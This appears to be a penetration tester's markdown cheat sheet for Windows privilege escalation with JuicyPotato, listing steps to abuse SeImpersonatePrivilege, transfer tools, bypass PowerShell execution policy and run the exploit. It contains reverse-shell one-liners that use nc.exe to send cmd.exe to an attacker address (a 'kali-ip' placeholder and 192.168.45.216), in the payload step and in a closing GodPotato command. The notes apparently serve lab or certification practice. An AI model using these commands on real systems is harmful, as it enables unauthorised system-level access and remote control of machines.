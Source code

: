 # 4. JuicyPotato



1. `whoami /priv`
2. SeImpersonatePrivilege is enabled
3. Transfer JuicyPotato.exe and getCLSID.ps1
4. powershell -ep bypass -file getCLSID.ps1                                 ( which will create directory )
5. transfer nc.exe
6. make payload (msfvenom, bat etc)                                           ( e.g. echo C:\Users\Public\nc.exe -e cmd.exe kali-ip 9999 > priv.bat )
7. JuicyPotato.exe -p priv.bat -l 9999 -t \* -c {CLSID}                 ( may need to try many ) ( start nc listener )



Juicy Potato Ref:

[https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

[https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505)



> [!NOTE]
> JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.


```
GodPotato.exe -cmd "cmd /c C:\tmp\nc.exe -e cmd.exe 192.168.45.216 5555"
```

